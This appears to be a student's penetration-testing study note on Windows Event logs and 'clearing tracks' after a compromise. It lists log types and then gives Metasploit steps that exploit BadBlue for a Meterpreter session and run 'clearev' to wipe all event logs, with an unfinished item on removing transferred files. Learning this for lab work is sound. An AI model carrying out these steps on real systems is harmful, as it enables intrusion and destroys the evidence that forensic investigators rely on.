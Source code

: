 * Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event log.
* **CAtegories of Event logs**
  * Application logs
    * Stores application/program evets like startups, crashes, etc.
   
  * System logs
    * Stores system events like startups, reboots, etc.
   
  * Security logs
    * Stores security events like password changes, authentication failures, etc.
   
* **How can I view the Event logs**
  * Through the Event Viewer on Windows
 
* **Why is it imprtant to clear the tracks**
  * Because the Event logs are the first stop for any forensic investigator after a compromise has been detected.
 
* PRACTICAL
  * Administrator privileges are required to clear the Event Logs. 
  * Repeat steps till db_nmap
  * `use exploit/windows/http/badblue_passthru
  * set target
  * `run` --> Meterpreter session
  * ***
  * **How to clear**
  * Inside meterpreter:
  * `clearev` --> This will clear everything.
 
  * **Wipe the exploits, payloads or any other files transferred to the target**
  * ???Figure out???

